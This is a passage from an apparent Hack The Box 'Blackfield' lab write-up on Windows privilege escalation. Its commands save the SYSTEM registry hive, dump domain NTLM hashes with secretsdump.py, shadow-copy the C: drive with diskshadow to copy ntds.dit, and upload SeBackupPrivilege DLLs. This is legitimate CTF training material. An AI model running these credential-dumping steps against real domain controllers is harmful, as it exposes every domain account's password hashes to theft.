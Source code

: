 Grabbing **SYSTEM**:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM
```
### Extracting NTLM hashes
We got both the files required to extract NTLM hashes of Domain accounts using Impacket’s secretsdump.py:
```console
┌─[✗]─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

## PrivEsc Method #2 - diskshadow
In second method, the strategy would be the same to grab **NTDS.dit**, but instead we’ll use a different windows tool named **diskshadow**.

> Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS). This is a built-in function of Windows that can help us create a copy of a drive that is currently in use. 

First, we will be creating a **Distributed Shell File** or a **dsh** file which will consist of all the commands that are required by the diskshadow to run and create a full copy of our Windows Drive which we then can use to extract the **ntds.dit** file from. In this file, we are instructing the **diskshadow** to create a copy of the **C:** Drive into a **w:** Drive with **mydrive** as its alias. The Drive Alias and Character can be anything you want. After creating this dsh file, we need to use the **unix2dos** to convert the encoding and spacing of the dsh file to the one that is compatible with the Windows Machine.
```console
set context persistent nowriters
add volume c: alias mydrive
create
expose %mydrive% w:
```
In local machine:
```console
┌─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $unix2dos shadow.dsh
```
 *Usually upload to folder C:\Windows\Temp*
 
Then execute the diskshadow and using the script file as its inputs.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s shadowscript.dsh
```

Now, to perform the task of copying the data of the NTDS.dit file, there are two ways to do it:
- robocopy
- Copy-FileSeBackupPrivilege

### robocopy

I’ll now copy the file using **robocopy** with **/B** flag to ignore file permissions and use a new directory new_ntds to save the file:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /B w:\Windows\ntds .\new_ntds ntds.dit
```
### Copy-FileSeBackupPrivilege
An alternate way to copy files from the shadow drive **w:\** is by uploading **SeBackupPrivilegeUtils.dll** and **SeBackupPrivilegeCmdLets.dll** from [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) repo and importing them to our session.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll
```